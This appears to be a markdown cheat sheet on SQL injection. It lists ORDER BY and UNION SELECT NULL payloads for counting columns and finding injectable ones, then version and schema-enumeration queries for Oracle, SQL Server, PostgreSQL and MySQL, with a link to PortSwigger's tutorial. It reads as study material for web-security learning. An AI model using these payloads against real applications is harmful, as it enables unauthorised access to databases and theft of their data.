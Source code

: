 # Post-Methods

## 1. Finding total number of columns with order by or group by or having :

```
  Submit a series of ORDER BY clause such as

    ' ORDER BY 1 --
	  ' ORDER BY 2 --
    ' ORDER BY 3 --

    and incrementing specified column index until an error occurs.
```

## 2. Finding vulnerable columns with union operator :

```
  Submit a series of UNION SELECT payloads.

	  ' UNION SELECT NULL --
    ' UNION SELECT NULL, NULL --
    ' UNION SELECT NULL, NULL, NULL --

  (Using NULL maximizes the probability that the payload will succeed. NULL can be converted to every commonly used data type.)
```

-   To go for the methods in more detail, go through portswigger site.

    https://portswigger.net/web-security/sql-injection/union-attacks

## 3. Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat()

### 1. Database version

```
    Oracle 			  SELECT banner FROM v$version
		       		  SELECT version FROM v$instance

    Microsoft 			  SELECT @@version

    PostgreSQL 			  SELECT version()

    MySQL 			  SELECT @@version
```

### 2. Database contents

```
    Oracle        SELECT * FROM all_tables
	          SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

    Microsoft 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

    PostgreSQL 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

    MySQL         SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
